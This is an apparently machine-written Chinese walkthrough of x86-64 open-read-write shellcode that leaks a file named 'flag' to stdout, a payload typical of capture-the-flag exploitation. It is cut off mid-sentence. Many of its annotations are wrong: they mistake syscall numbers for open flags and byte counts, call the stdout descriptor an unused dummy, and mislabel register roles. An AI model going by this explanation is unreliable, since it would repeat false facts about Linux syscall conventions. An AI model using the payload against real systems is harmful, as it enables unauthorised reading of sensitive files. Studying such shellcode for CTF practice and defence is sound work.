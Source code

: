 这段代码是利用Linux的syscall接口来执行ORW（Open-Read-Write）操作的一个例子。ORW通常用于从文件中读取内容并写入到其他地方，比如将敏感信息泄露到stdout。

下面是这段代码的详细解释：

1. **Open the file "flag"**:
   ```
   0:   68 66 6c 61 67          push   0x67616c66  ; Push the address of the string "flag" (in reverse order) onto the stack
   5:   6a 02                   push   0x2         ; Push the open flags (O_RDONLY) onto the stack
   7:   58                      pop    rax          ; Move the open flags into the rax register
   8:   48 89 e7                mov    rdi,rsp      ; Move the address of the filename ("flag") into the rdi register (first argument for syscall)
   b:   48 31 f6                xor    rsi,rsi      ; Clear the rsi register (second argument for syscall, file descriptor)
   e:   0f 05                   syscall             ; Call the syscall with the parameters in rdi, rsi, and rax
   ```

   这部分代码首先把字符串"flag"的地址和打开文件的标志（只读，即0x2）压入栈中，然后通过一系列操作将这些参数放入正确的寄存器中，并调用syscall来打开文件。文件描述符会被存储在rax寄存器中。

2. **Read from the file**:
   ```
   10:   48 89 c7                mov    rdi,rax      ; Move the file descriptor (rax) into the rdi register (first argument for syscall)
   13:   48 31 c0                xor    rax,rax      ; Clear the rax register (third argument for syscall, number of bytes to read)
   16:   48 89 e6                mov    rsi,rsp      ; Move the address of the buffer (rsp) into the rsi register (second argument for syscall)
   19:   6a 20                   push   0x20         ; Push the number of bytes to read (0x20 = 32 bytes) onto the stack
   1b:   5a                      pop    rdx          ; Move the number of bytes to read into the rdx register
   1c:   0f 05                   syscall             ; Call the syscall with the parameters in rdi, rsi, and rdx
   ```

   这部分代码首先从rax寄存器中取出文件描述符，然后清空rax寄存器，将rsp（栈指针，作为缓冲区）的地址移动到rsi寄存器，最后将需要读取的字节数（32字节）压入栈中并移动到rdx寄存器中。最后，它调用syscall来从文件中读取内容。

3. **Write to stdout**:
   ```
   1e:   6a 01                   push   0x1          ; Push the file descriptor for stdout (1) onto the stack
   20:   58                      pop    rax          ; Move the file descriptor into the rax register
   21:   6a 01                   push   0x1          ; Push a dummy value onto the stack (unused in this syscall)
   23:   5f                      pop    rdi          ; Pop the dummy value into the rdi register (unused in this syscall)
   24:   48 89 e6                mov    rsi,rsp      ; Move the address of the buffer (rsp) into the rsi register (second argument for syscall)
   27:   6a 20                   push   0x20         ; Push the number of bytes to write (0x20 = 32 bytes) onto the stack
   29:   5a                      pop    rdx          ; Move the number of bytes to write into the rdx register
   2a:   0f 05                   syscall             ; Call the syscall with the parameters in rax, rsi, and rdx
   ```

   这部分代码将文件内容写入到stdout（文件描述符为1）。首先，将stdout的文件描述符压入栈中并移动到rax寄存器，然后执行一些不影响结果的push和pop操作（这可能是为了对齐栈或保持与某个特定攻击场景的一致性）。接着，将缓冲区地址移动到rsi寄存器，将需要写入的字节数压入栈中并移动到rdx寄存器，最后调用syscall来执行写入操作。

请注意，此代码片段假定目标系统使用的是syscall接口，而不是旧的int 0x80中断。此外，此代码没有对错误进行处理，